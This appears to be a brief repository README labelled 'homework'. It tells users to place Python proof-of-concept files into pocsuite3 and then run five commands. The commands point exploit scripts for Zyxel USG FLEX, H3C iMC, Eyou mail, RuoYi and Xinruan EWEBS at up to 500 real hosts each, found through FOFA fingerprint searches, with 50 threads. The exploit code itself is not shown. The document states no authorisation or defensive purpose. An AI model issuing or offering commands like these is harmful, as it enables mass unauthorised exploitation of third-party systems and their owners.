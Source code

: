 # -python-
homework
welcome
将py文件放入pocsuite3/pocs下 
返回输入命令
pocsuite -r ./pocs/Zyxel.py   --dork-fofa title="USG FLEX"  --max-size 500 --save-file ./redis_res3.txt --threads 50

pocsuite -r ./pocs/h3c.py   --dork-fofa body="/imc/javax.faces.resource/images/login_help.png.jsf?ln=primefaces-imc-new-webui"  --max-size 500 --save-file ./redis_res4.txt --threads 50

pocsuite -r ./pocs/yiyou.py   --dork-fofa body="亿邮电子邮件系统"  --max-size 500 --save-file ./redis_res5.txt --threads 50

pocsuite -r ./pocs/nuoyi.py   --dork-fofa app="若依-管理系统"  --max-size 500 --save-file ./redis_res6.txt --threads 50

pocsuite -r ./pocs/xielou.py   --dork-fofa app="新软科技-极通EWEBS"  --max-size 500 --save-file ./redis_res7.txt --threads 50
